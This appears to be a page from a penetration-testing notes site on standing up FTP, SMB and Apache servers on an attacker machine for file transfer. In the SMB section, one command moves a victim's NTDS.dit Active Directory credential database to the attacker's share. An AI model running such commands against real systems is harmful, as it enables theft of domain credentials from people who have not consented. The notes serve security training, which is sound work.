

repository: amandaguglieri/hackinglife · page: servers/index.html · generator: mkdocs

---
title: Setting up servers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - servers
  - file transfer
---
# Setting up a server (in the attacking machine)

| **Protocol / app**                            |
| --------------------------------------------- |
| [smb server](#smb-server)                     |
| [Apache server](#apache-server)               |
| [ngix](#nginx)                                |
| [symple python server](#simple-python-server) |
| [php web server](#php-web-server)             |
| [Ruby web server](#ruby-web-server)           |
| Burp Suite Collaborator                       |
| [Interactsh](interactsh.md)                   |
| [responder](responder.md)                     |
| [uploadserver](uploadserver.md)               |
| [Webdav wsgodav server](webdav-wsgidav.md)    |
| FTP server                                    |

## FTP server 

We may also host our script through the FTP protocol.  We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```
# Install the library
sudo apt-get install python3-pyftpdlib

# Launch the server
sudo python3 -m pyftpdlib -p 21  
```


## smb server

[Launch smbserver in our attacker machine](smbserver.md):

```bash
# Alternative 1
impacket-smbserver -smb2support CompData $(pwd)

# Alternative 2
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


## Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.
